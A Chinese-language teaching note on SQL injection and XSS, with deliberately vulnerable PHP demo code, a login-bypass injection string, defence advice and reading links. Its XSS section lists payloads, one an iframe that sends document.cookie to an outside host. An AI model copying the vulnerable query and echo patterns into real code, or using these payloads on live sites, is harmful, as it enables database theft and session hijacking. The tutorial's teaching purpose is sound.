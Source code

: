 # SQL注入与xss

## SQL注入

### 何为sql注入?

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息;

### 原理

由于可以进行字符串拼接,所以可以代入注释符引号等对原语句进行闭合,达到执行一些未达到其他目的的sql语句

### demo

```php
<?php
$mysql=new  mysqli('127.0.0.1','root','root','sql_injection');
$username=$_POST['username'];
$password=$_POST['password'];
$type=$_GET['type'];
if (!$type){
	echo "please 'get' a type";
}
if ($type==='register'){
	$result=$mysql->query("INSERT INTO `users`(`username`, `password`) VALUES ($username,$password)");
	var_dump($result);
}
if ($type=='login'){
	$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
	$result= $mysql->query($sql);
	echo "your sql query stings is:$sql"."<br/>".PHP_EOL;
	var_dump($result);
	$row=$result->fetch_row();
	//	echo "hello ".$result[''];
	var_dump($row);
	echo '<br/>'.PHP_EOL;
	echo "hello $row[1]";
}
```

1234' or 1=1#

SELECT * FROM users WHERE username='1234' or 1=1#' AND password='12'

### 危害

轻则脱库

重则webshell

末日则人没了

想详细了解的可以看看我的博客

WAF,安全狗,还是看门狗,

湘大某某服务存在sql注入,高危

[sql注入总结](https://yanmymickey.github.io/2020/02/11/CTF/sql%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)

[mysql注入天书](https://www.cnblogs.com/lcamry/category/846064.html)

第二个链接会从sql基础讲起，对于sql注入理解很有帮助，里面有博客一篇篇的文章版本，还有一版pdf，在开天辟地里面有介绍。

[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-53)

高阶知识，sql注入小能手

### 防御

防御太难了，没有一劳永逸的方法。

相对安全的方法，使用PDO的预编译，但是也要主要宽字节等等。

当你使用laravel的框架的时候，代码规范的情况下是不会出现这样的漏洞，比如使用ORM，不要用DB对象的拼接，对输入数据进行过滤，充分利用正则表达式等等过滤一切你不想要的字符（字符白名单）

## XSS

### 是什么？

跨站脚本攻击（Cross-site scripting，XSS）是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。

### 怎么用

理解比较简单，放几个链接看看就好，到时候展示一下常见的例子，带入一下

[XSS总结](https://xz.aliyun.com/t/4067#toc-10)

```php
<?php

setcookie("user","admin");

$msg=$_POST['msg'];
//存储型
//$mysql=new  mysqli('127.0.0.1','root','root','sql_injection');
//$insert=$mysql->query("INSERT INTO `xss`(`msg`) VALUES ('$msg')");
//var_dump($insert);
//$result=$mysql->query("SELECT * FROM `xss`");
//if ($result->num_rows > 0) {
//	// 输出数据
//	while($row = $result->fetch_assoc()) {
//		echo "id: " . $row["id"]. " - msg: " . $row["msg"]."<br>";
//	}
//} else {
//	echo "0 结果";
//}

//反射型
echo $msg;

//dom型
//和反射型差不多,利用你注入的代码去操作dom

```



```http
msg=<iframe src="https://yanmy.top/index.php?cookies=document.cookie"></iframe>
msg=<script>alert(1);</script>
msg=<script>alert(document.cookie);</script>
```

html+php

//过滤,代码把你的转义,白名单

## 写在最后

希望你们多去看看原理,程序员不要停留在会用的阶段,会用的阶段你就是一个`Ctrl+c Ctrl+v`

有什么需要看的?

没事就看看nginx的原理,配置文件会写了吗?很细节的地方能写吗?不常见的用法能看懂吗? 

docker实现的原理?

laravel的底层代码?

最后要多学几门语言,学完C语言,PHP了,那么常见的高级语言都差不多类型了,入门多门语言是不难的,无非都是基础的条件,循环,流程控制。再这些语言中选一两门比较感兴趣又比较热门的深入学习，现在热门的是java，c++，python，php，go，等等一些。

看见什么多折腾折腾是有好处的

先有宽度，再有深度，不断深入学习方能成就大业。

加油叭，少年们，我们还差得远呢🙃🙃🙃

